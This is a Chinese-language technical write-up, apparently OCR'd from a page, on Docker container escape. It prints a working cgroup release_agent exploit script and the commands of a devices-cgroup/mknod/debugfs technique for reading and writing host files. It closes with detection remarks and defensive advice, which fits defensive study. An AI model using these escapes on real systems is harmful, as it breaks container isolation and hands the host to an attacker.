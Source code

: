 #!/bin/bash

# 在容器内创建一个临时目录
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

# 启用cgroup通知机制
echo 1 \> /tmp/cgrp/x/notify\_on\_release
host\_path=\`sed -n 's/.\*\\perdir=\\(\[^,\]\*\\).\*/\\1/p' /etc/mtab\`
echo "$host\_path/cmd" \> /tmp/cgrp/release\_agent

# 创建要在宿主机上执行的命令
echo '#!/bin/sh' \> /cmd
echo "ps aux > $host\_path/output" \>> /cmd
chmod a+x /cmd

# 触发release\_agent
sh -c "echo \\$\\$ > /tmp/cgrp/x/cgroup.procs"

输出示例：

其中

host\_path=\`sed -n 's/.\*\\perdir=\\(\[^,\]\*\\).\*/\\1/p' /etc/mtab\` 

的做法经常在不同的 Docker 容器逃逸 EXP 被使用到；如果我们在漏洞利用过程中，需要在容器和宿主机内进行文件或文本共享，这种方式是非常棒且非常通用的一个做法。

其思路在于利用 Docker 容器镜像分层的文件存储结构 (Union FS)，从 mount 信息中找出宿主机内对应当前容器内部文件结构的路径；则对该路径下的文件操作等同于对容器根目录的文件操作。

此类手法如果 HIDS 并未针对容器逃逸的特性做一定优化的话，则 HIDS 对于逃逸在母机中执行命令的感知能力可能就会相对弱一点。不过业界的 EDR 和 HIDS 针对此手法进行规则覆盖的跟进速度也很快，已有多款 HIDS 对此有一定的感知能力。

另外一个比较小众方法是借助上面 lxcfs 的思路，复用到 sys\_admin 或特权容器的场景上读写宿主机上的文件。（腾讯蓝军的兄弟们问得最多的手法之一，每过一段时间就有人过来问一次 ~）

1.  首先我们还是需要先创建一个 cgroup 但是这次是 device subsystem 的。

mkdir /tmp/dev
mount -t cgroup -o devices devices /tmp/dev/

1.  修改当前已控容器 cgroup 的 devices.allow，此时容器内已经可以访问所有类型的设备

命令：

echo a \> /tmp/dev/docker/b76c0b53a9b8fb8478f680503164b37eb27c2805043fecabb450c48eaad10b57/devices.allow

1.  同样的，我们可以使用 mknod 创建相应的设备文件目录并使用 debugfs 进行访问，此时我们就有了读写宿主机任意文件的权限。

mknod near b 252 1
debugfs -w near

**防御建议**：

-   限制容器的 CAP\_SYS\_ADMIN 权限
-   使用 seccomp 过滤器限制容器内的系统调用
-   监控 cgroup 相关操作，特别是对 notify\_on\_release 和 release\_agent 的修改
-   使用只读文件系统运行容器，减少攻击面
